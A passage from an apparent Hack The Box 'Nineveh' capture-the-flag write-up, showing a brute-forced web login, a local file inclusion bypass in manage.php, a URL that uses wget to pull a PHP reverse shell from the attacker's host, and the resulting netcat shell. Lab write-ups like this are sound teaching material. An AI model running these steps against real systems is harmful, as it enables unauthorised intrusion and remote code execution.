 ~~~
Warning: copy(/var/www/html/syrion.php): failed to open stream: Permission denied in /var/www/ssl/db/index.php on line 1259
~~~

So the application didn't have the permissions for write there.

At this point I tried to bruteforce the login in http://nineveh.htb/department :

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-02-05-htb-nineveh/img2.png)

The credentials were admin:1q2w3e4r5t.

After some enumeration of the web app I found something like an LFI in http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt,
I tried to include my db /var/tmp/syrion.php (but it didn't work.


By rename the db ninevehNotes1.php I was able to incude my shell and execute command:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-02-05-htb-nineveh/img3.png)

In the source code of the page there was this check:

~~~
if(!strpos($file, "ninevehNotes"))
    exit("No Note is selected.");
~~~

I uploaded a reverse shell with wget and then include it:

~~~
http://nineveh.htb/department/manage.php?notes=/var/tmp/ninevehNotes1.php&cmd=wget%20http://10.10.14.6:8000/syrion%20-O%20/var/tmp/ninevehNotes2.php

http://nineveh.htb/department/manage.php?notes=/var/tmp/ninevehNotes2.php
~~~

And I got a reverse shell:

~~~
root@kali:~# nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from nineveh.htb [10.10.10.43] 50710
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 08:31:57 up  3:45,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3.5 -c "import pty;pty.spawn('/bin/bash')"
www-data@nineveh:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

From the sshd_config file we knew that the user could access ssh with a private key, so I start to enumerate the sistem in order to find this key:
